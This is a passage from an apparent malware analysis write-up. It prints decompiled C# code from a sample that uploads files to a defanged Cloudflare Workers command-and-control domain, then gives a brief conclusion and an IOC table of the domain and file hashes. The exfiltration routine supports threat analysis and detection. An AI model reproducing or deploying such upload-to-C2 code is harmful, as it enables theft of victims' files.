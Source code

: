 ```c#
			form.Add(new ByteArrayContent(File.ReadAllBytes(filename)), Guid.NewGuid().ToString(), Path.GetFileName(filename));
			using (HttpClient httpClient = new HttpClient())
			{
				HttpResponseMessage httpResponseMessage = await httpClient.PostAsync("hxxps://22.rooz2024[.]workers[.]dev", form);
				httpResponseMessage.EnsureSuccessStatusCode();
				TaskAwaiter<string> taskAwaiter = httpResponseMessage.Content.ReadAsStringAsync().GetAwaiter();
				if (!taskAwaiter.IsCompleted)
				{
					await taskAwaiter;
					TaskAwaiter<string> taskAwaiter2;
					taskAwaiter = taskAwaiter2;
					taskAwaiter2 = default(TaskAwaiter<string>);
				}
				if (taskAwaiter.GetResult() == "OK")
				{
					return true;
				}
			}
			HttpClient httpClient = null;
		}
		MultipartFormDataContent form = null;
	}
	catch (Exception)
	{
	}
	return false;
}
```

The C2 domain in question appears to belong to [Cloudflare](https://workers.cloudflare.com/) and their serverless workers and does not appear to return anything useful when attempting to access it normally.

## Conclusion

Not that interesting nor complicated of a binary, really. More so fun to have a quick look at, seeing as it had such a little amount of detections and being recently built. There also appears to be very little done in the form of obfuscation to deter analysis and hide what is happening.

## IOCs

The dropped files themselves are not that interesting, it is the behaviour of them being dropped and simultaneously loaded by the same process which is of note.

| Name/Type | Value|
|---|---|
| C2 domain | hxxps://22.rooz2024[.]workers[.]dev |
| Dropped file eng.traineddata | DAA0C97D651C19FBA3B25E81317CD697E9908C8208090C94C3905381C23FC047 |
| Dropped file pdf.ttf | C7845420925A23D88ED830A63957B8AF85A66A8DAF8D9FC90E843673B2EF1A59 |
| Dropped DLL leptonica-1.82.0.dll | DFCB3E6ED0B16BC55BFDBCF53543CFE42A354B87C3E35BD3A95EEBF005D73E76 |
| Dropped DLL tesseract50.dll | DE4D04EC75095374D98F5DD7A60D14D7E2E0F76589DB693ECCF7AE658BE8CB2B |
